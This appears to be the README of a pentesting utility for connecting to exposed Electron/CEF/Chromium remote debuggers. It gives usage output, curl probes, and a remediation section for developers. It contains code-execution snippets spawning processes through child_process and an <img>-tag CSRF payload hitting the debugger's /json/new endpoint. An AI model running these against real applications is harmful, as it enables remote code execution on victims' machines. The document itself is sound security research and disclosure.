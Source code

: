 # cefdebug

This is a minimal commandline utility and/or reference code for using
libwebsockets to connect to an electron/CEF/chromium debugger.

You're probably thinking, "who would enable the debugger in shipping products?".
Well, it turns out just about everyone shipping electron or CEF has made this
mistake at least once.

In some configurations, you can pop a shell remotely just by making a victim
click a link.

Example: https://bugs.chromium.org/p/project-zero/issues/detail?id=773

In older versions, you could pop a shell remotely using DNS rebinding.

Example: https://bugs.chromium.org/p/project-zero/issues/detail?id=1742

Example: https://bugs.chromium.org/p/project-zero/issues/detail?id=1946

In current versions, you can compromise other local users or escape sandboxes.

Example: https://bugs.chromium.org/p/project-zero/issues/detail?id=1944

It happens so often, that I thought pentesters might find it useful to have some
code easily available to interact with them.

# Usage

First, scan the local machine

```
$ ./cefdebug.exe
[2019/10/04 16:18:56:7288] U: There are 3 tcp sockets in state listen.
[2019/10/04 16:18:56:7766] U: There were 1 servers that appear to be CEF debuggers.
[2019/10/04 16:18:56:7816] U: ws://127.0.0.1:3585/5a9e3209-3983-41fa-b0ab-e739afc8628a
```

Now you can send commands to that `ws://` URL.

```
$ ./cefdebug.exe --url ws://127.0.0.1:3585/5a9e3209-3983-41fa-b0ab-e739afc8628a --code "process.version"
[2019/10/04 16:35:06:2645] U: >>> process.version
[2019/10/04 16:35:06:2685] U: <<< v10.11.0
```

Alternatively, you can start a simple interactive shell.

```
$ ./cefdebug.exe --url ws://127.0.0.1:3585/5a9e3209-3983-41fa-b0ab-e739afc8628a
>>> ['hello', 'world'].join(' ')
[2019/10/04 16:36:31:0964] U: <<< hello world
>>> a = 1024
[2019/10/04 16:36:44:5250] U: <<< 1024
>>> a * 2
[2019/10/04 16:36:48:3005] U: <<< 2048
>>> quit
```

### Known Examples

Here are a list of code snippets I've seen that allow code exec in different electron
applications.

`process.mainModule.require('child_process').exec('calc')`

`window.appshell.app.openURLInDefaultBrowser("c:/windows/system32/calc.exe")`

`require('child_process').spawnSync('calc.exe')`

`Browser.open(JSON.stringify({url: "c:\\windows\\system32\\calc.exe"}))`

### Notes
Here are things to test if you find a debugger.

* Does it prevent [DNS rebinding](https://en.wikipedia.org/wiki/DNS_rebinding)?

`$ curl -H 'Host: example.com' -si 'http://127.0.0.1:9234/json/list'`

🚨 If that works (i.e. json response), this is **remotely** exploitable. 🚨

Newer versions of chromium require that the Host header match `localhost` or an
IP address to prevent this. If this works, the application you're looking at is
based on an older version of chromium, and leaving the debugger enabled can be
**remotely** exploited. You have found a critical vulnerability and should
report it urgently.

* Is the `new` command functioning?

`$ curl -si 'http://127.0.0.1:9234/json/new?javascript:alert(1)'`

🔥🚨 If that works (i.e. a json response), this is **easily** **remotely** exploitable. 🚨🔥

This command requires no authentication, and has no CSRF protection. Just
`<img src=http://127.0.0.1:port/json/new?javascript:...>` in a website is
enough to exploit it. Even if the port is randomized, it can be brute forced
easily.

This is a very critical vulnerability, and should be reported urgently.

# Solution

If you maintain a CEF project and you've noticed you're vulnerable to this
attack, you probably need to change this setting in your `cef_settings_t`
for production builds:

https://magpcss.org/ceforum/apidocs3/projects/(default)/_cef_settings_t.html#remote_debugging_port

In electron, it's possible you're doing something like:

`app.commandLine.appendSwitch('remote-debugging-port'...)`

If you're using node, perhaps you're using `--inspect` on child processes.

https://nodejs.org/de/docs/guides/debugging-getting-started/#security-implications

# Building

## Windows 

> If you don't want to build it yourself, check out the [releases](https://github.com/taviso/ctftool/releases) tab

I used [GNU make](http://gnuwin32.sourceforge.net/packages/make.htm) and Visual
Studio 2019 to develop `cefdebug`. 

If all the dependencies are installed, just typing `make` in a developer command
prompt should be enough.

I use the "Build Tools" variant of Visual Studio, and the only components I have
selected are MSVC, MSBuild, CMake and the SDK.

This project uses submodules for some of the dependencies, be sure that you're
using a command like this to fetch all the required code.

```
git submodule update --init --recursive
```
## Linux

The main depdencies are libwebsockets and libreadline.

On Fedora, try:

`yum install readline-devel libwebsockets-devel openssl-devel`

If the dependencies are intalled, try `make -f GNUmakefile.linux`

## Embedding

The code is intended to be simple enough to embed in other pentesting tools.

# Authors

Tavis Ormandy <taviso@gmail.com>

# License

All original code is Apache 2.0, See LICENSE file for details.

The following components are imported third party projects.

* [wineditline](http://mingweditline.sourceforge.net/), by Paolo Tosco.
  * wineditline is used to implement user friendly command-line input and
    history editing.
* [libwebsockets](https://libwebsockets.org), by Andy Green et al.
  * libwebsockets is a portable c implementation of HTML5 websockets.
